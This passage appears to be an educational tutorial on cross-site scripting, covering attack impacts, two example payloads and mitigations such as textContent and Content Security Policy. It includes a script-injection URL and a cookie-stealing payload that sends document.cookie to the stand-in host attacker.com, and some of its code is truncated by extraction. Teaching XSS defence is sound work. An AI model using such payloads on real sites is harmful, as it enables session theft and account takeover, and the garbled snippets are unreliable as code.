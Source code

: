 Unauthorized Activities: Using similar exploits, an attacker might send messages on your behalf without your knowledge, possibly asking friends for money or sharing sensitive information.


Keystroke Capture: Attackers can inject scripts that log every keystroke, capturing usernames, passwords, and other sensitive data. Imagine typing out your personal details while an attacker secretly records everything.

Phishing Attacks: An attacker can create fake forms mimicking your application's interface. For instance, you could be tricked into entering your credentials into a form that submits data to the attacker rather than your legitimate application.

Exploring Vulnerabilities with Code Examples

Let’s look at some code examples to illustrate these vulnerabilities more clearly.

Example 1: Simple Vulnerable Code

Here’s a straightforward HTML page that reads a query parameter:



message"> + params.get('name');


If a user enters a name in the URL, it gets displayed in the `message` div. The issue arises when a user inputs a malicious script in the query parameter. 

Malicious URL: abc.com?name=<script>alert('Hacked!')</script>


When executed, this would display an alert, demonstrating how easily an attacker can compromise an application by injecting scripts.


Example 2: Capturing Cookies

Imagine an attacker sends a URL like below, with the intent of capturing valuable session cookies:


?name= onerror="fetch('https://attacker.com/?cookie=' + document.cookie)">

This code attempts to fetch the user's cookies and send them to the attacker’s server. By exploiting vulnerabilities in how user input is handled, attackers can compromise accounts without the user being aware.


Mitigating XSS Vulnerabilities

Now that we understand how XSS attacks occur, let’s explore some essential mitigation strategies:


Input Validation: Always validate user input. This includes sanitizing inputs and disallowing harmful entities.

Use of textContent Instead of innerHTML: To prevent executable HTML from being injected:
document.getElementById('message').textContent = "Welcome " + params.get('name');

Content Security Policy (CSP): Implement CSP headers that allow only scripts from trusted sources. This can significantly reduce the attack surface by disabling the execution of untrusted scripts.

Example of a CSP Header:

Content-Security-Policy: default-src 'self'; script-src 'self' https://trustedscripts.com
